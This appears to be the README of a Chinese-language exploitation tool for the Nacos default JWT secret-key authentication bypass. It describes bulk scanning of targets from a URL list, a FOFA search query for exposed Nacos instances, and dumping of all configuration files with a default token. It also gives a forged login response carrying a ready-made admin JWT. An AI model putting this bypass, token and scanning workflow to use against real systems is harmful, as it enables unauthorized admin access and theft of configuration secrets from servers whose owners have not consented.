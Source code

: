 # Nacos JWT 硬编码登陆

https://github.com/alibaba/nacos/issues/9830

# 0x0x 梭哈

do what?

- [x] 读取 url.txt 文件，批量验证 Nacos JWT 漏洞
  - [x] 支持url，或者直接输入 host、ip 重定向

- [x] 获取全部配置文件信息，存储在 output 目录中
  - [x] 使用默认 accessToken，可 -t 修改
- [x] 解析配置文件的轮子
  - [x] 提取期望 key，新增直接添加到 niceKey 数组
    - [x] 解析 yaml、yml 文件
    - [ ] json、 properties、无后缀的遇到再加，目前简单处理

效果图

![image-20230531231729266](attachments/image-20230531231729266.png)

# 0x00 概述

## 漏洞描述

Nacos 提供了一组简单易用的特性集，帮助您快速实现动态服务发现、服务配置、服务元数据及流量管理。若您Nacos未修改 secret.key，则攻击者可利用默认secret.key生成JWT Token，从而造成权限绕过访问到相关API接口。

## 影响范围

0.1.0<=com.alibaba.nacos:nacos-console<2.2.0.1

# 0x01 环境

fofa

```
app="NACOS" 
```

# 0x02 复现

抓取登陆包，修改响应包状态码和 body

```json
{
"accessToken":
"eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTY3NTA4Mzg3N30.mIjNX6MXNF3FgQNTl-FduWpsaTSZrOQZxTCu7Tg46ZU","tokenTtl": 18000,
"globalAdmin": true,"username":"nacos"
}
```

![image-20230530101351383](attachments/image-20230530101351383.png)









